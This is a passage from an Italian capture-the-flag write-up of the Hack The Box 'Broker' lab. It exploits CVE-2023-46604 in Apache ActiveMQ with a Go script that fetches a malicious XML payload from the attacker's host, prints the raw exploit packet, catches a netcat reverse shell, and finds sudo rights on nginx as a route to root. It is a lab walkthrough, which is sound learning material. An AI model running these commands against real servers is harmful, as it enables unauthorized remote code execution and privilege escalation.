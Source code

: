 Avviamo ora l'exploit.

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/broker/CVE-2023-46604]
└──╼ $go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.9:8000/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.16.9:8000/poc-linux.xml

[*] Sending packet: 000000771f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010024687474703a2f2f31302e31302e31362e393a383030302f706f632d6c696e75782e786d6c
```

Controlliamo la reverse shell.

```shell
┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.243 42396
bash: cannot set terminal process group (904): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ whoami
whoami
activemq
```

Prendiamo la user flag.

## Shell come activemq

### Enumerazione Interna

Come primo comando, controlliamo i binaries che possiamo eseguire come qualsiasi user attraverso `sudo -l`.

```shell
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Possiamo eseguire come root `/usr/sbin/nginx`. Che versione era il sito? Ricontrolliamo l'output di nmap:
